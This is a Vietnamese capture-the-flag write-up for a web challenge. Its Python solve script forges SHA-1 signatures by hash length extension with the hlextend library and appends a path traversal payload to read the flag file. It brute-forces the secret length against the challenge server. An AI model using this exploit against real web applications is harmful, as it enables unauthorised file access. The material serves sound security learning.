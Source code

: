 ![image](../img/4.1.png)

start chall lên rồi click vào hình 1 con chó bất kì, nó sẽ redirect chúng ta tới

![image](../img/4.2.png)

để ý url nhé ae
để rõ hơn mình view source code

`index.php` không có gì đặc biệt đâu ae
![image](../img/4.3.png)

thằng `view.php` này mới đểu nè
![image](../img/4.4.png)

điều mình cần là trên remote cái chuỗi ban đầu trước $pic là gì, sau một hồi fuzz không có kết quả khả quan mình quay ra research sha1 exploit và tìm được cái [này](https://log.kv.io/post/2011/03/04/exploiting-sha-1-signed-messages)

sau đó research thêm về `hlextend` mình tìm thêm được repo [này](https://github.com/stephenbradshaw/hlextend)

script lấy flag:

```
import requests
import hlextend
import subprocess
import hashlib


BASE_URL = "http://chal.competitivecyber.club:7777"
# BASE_URL="http://localhost:5040"


def check_stx():
    for length in range(1,100):
        print("[+] length",length)
        sha = hlextend.new('sha1')
        append=b"/./../../../../../flag"
        file=b"2.png"
        out_msg=sha.extend(append,file,length,"6e52c023e823622a86e124824efbce29d78b2e73")
        print(out_msg)
        hash=sha.hexdigest()

        resp = requests.get(BASE_URL + "/view.php", params={"pic":out_msg , "hash": hash})
        if "BAD.gif" not in resp.text:
            print(resp.text)
            exit(0)

check_stx()

```

Flag: `pctf{3xt3nd_my_th4nk5_e9b5f6aa07}`






